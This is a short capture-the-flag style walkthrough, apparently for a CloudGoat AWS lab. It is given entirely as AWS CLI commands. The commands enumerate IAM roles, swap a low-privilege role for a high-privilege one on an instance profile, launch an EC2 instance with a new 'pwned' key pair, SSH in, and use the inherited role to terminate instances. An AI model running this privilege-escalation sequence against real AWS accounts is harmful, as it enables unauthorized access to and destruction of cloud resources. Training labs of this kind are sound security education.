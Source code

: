 `aws configure --profile Kerrigan`

`aws ec2 describe-instances --profile Kerrigan`

`aws iam list-instance-profiles --profile Kerrigan`

`aws iam list-roles --profile Kerrigan`

`aws iam remove-role-from-instance-profile --instance-profile-name cg-ec2-meek-instance-profile-<cloudgoat_id> --role-name cg-ec2-meek-role-<cloudgoat_id> --profile Kerrigan`

`aws iam add-role-to-instance-profile --instance-profile-name cg-ec2-meek-instance-profile-<cloudgoat_id> --role-name cg-ec2-mighty-role-<cloudgoat_id> --profile Kerrigan`

`aws ec2 create-key-pair --key-name pwned --profile Kerrigan --query 'KeyMaterial' --output text > pwned.pem`

`chmod 400 pwned.pem`

`aws ec2 describe-subnets --profile Kerrigan`

`aws ec2 describe-security-groups --profile Kerrigan`

`aws ec2 run-instances --image-id ami-0a313d6098716f372 --instance-type t2.micro --iam-instance-profile Arn=<instanceProfileArn> --key-name pwned --profile kerrigan --subnet-id <subnetId> --security-group-ids <securityGroupId> --region us-east-1`

`ssh -i pwned.pem ubuntu@<instancePublicDNSName>`

`sudo apt-get update`

`sudo apt-get install awscli`

`aws ec2 describe-instances --region us-east-1`

`aws ec2 terminate-instances --instance-ids <instanceId> --region us-east-1`
